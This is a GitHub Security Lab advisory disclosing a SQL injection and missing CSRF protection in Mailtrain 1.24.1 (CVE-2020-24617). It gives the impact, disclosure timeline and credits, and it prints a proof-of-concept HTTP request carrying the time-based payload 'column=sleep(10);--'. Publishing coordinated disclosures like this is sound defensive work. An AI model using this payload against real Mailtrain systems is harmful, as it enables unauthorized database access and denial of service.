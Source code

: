 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">September 9, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-132: SQL Injection in Mailtrain - CVE-2020-24617</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>SQL injection and missing <a href="https://owasp.org/www-community/attacks/csrf">CSRF</a> protection may lead to Remote Code Execution (RCE) or arbitrary file read.</p>

<h2 id="product">Product</h2>
<p>Mailtrain</p>

<h2 id="tested-version">Tested Version</h2>
<p>1.24.1</p>

<h2 id="details">Details</h2>

<h3 id="sql-injection-in-statsclickedsubscribersbycolumn-accessible-from-campaignsclickedajax">SQL injection in <a href="https://github.com/Mailtrain-org/mailtrain/blob/f661ba8a6b5b0114f36bf7256bcc8227917ea363/lib/models/campaigns.js#L64">statsClickedSubscribersByColumn</a> accessible from /campaigns/clicked/ajax</h3>

<p>The user input <code class="language-plaintext highlighter-rouge">column</code> is used without validation to format a SQL query. The following HTTP request triggers SQL injection. Note that the anti Cross Site Request Forgery (CSRF) token is absent. A specially crafted page may use a CSRF vulnerability against a logged-in Mailtrain user to perform the injection even if the attacker doesn’t have credentials.</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>POST /campaigns/clicked/ajax/1/gdgdg/stats HTTP/1.1
Host: 192.168.253.133:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: connect.sid=s%3AzxIehz7S0MFY1s3sP_7WxkFE6_yfHN8T.C3jcpEr1Ly1gAAnMRhELS0qiBJgBSCDV4ohkiuo1kj0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

column=sleep(10);--
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This issue may lead to RCE or arbitrary file read. However an important pre-requisite is improperly configured database user settings. If the database user is correctly locked down it still may lead to denial of service or a timing based blind read. Authentication is not needed if the vulnerability is chained with CSRF.</p>

<h2 id="cve">CVE</h2>

<ul>
  <li>CVE-2020-24617</li>
</ul>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>07/07/2020: Report sent to Vendor</li>
  <li>21/07/2020: No reply. Asking for confirmation</li>
  <li>21/07/2020: Vendor acknowledges that the SQL injection part was fixed on 13/07/2020</li>
  <li>25/08/2020: CVE-2020-24617 assigned</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-132</code> in any communication regarding this issue.</p>

 